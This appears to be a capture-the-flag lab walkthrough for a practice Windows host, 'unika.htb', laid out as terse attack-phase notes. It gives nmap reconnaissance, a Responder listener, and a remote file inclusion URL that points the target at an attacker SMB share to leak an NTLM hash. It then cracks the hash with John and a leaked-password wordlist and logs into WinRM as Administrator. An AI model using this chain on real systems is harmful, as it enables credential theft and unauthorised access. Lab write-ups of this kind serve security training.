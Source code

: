# reconnaissance
## nmap scan
- [nmap scan](./evidences/nmap.txt)
- nmap -sV unika.htb -oN nmap.txt
- Apache web server on port 80/tcp
- WinRM server on port 5985/tcp

# resource development
## responder tool
- [NTLM hash](./evidences/stlm_hash.png)
- responder -I tun0
- listening on the interface connected to the LAN of the target for LLMNR (Link Local Multicast Neighbor Resolution)
- so that we can get the username and HASH (MD4) used to authenticate via NTLM

# initial access
## remote-file-intrusion
- [RFI command](./evidences/remote_file_intrusion.png)
- http://unika.htb/index.php?page=//10.10.14.78/test
- the responder logs are stored in: /usr/share/responder/log
- the hash inside the log is saved inside [NTLM hash] (./evidences/hash.txt)

## hash crack
- [NTLM hash cracked](./evidences/hash_cracking.png)
- john --wordlist=/usr/share/wordlist/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt

## WinRM access
- [WinRM shell access](./evidences/WinRM_access.png)
- evil-winrm -i unika.htb -u Administrator -p badminton

# privilege escalation
- [root flag](./evidences/root_flag.png)
- cat C:\Users\mike\Desktop\flag.txt
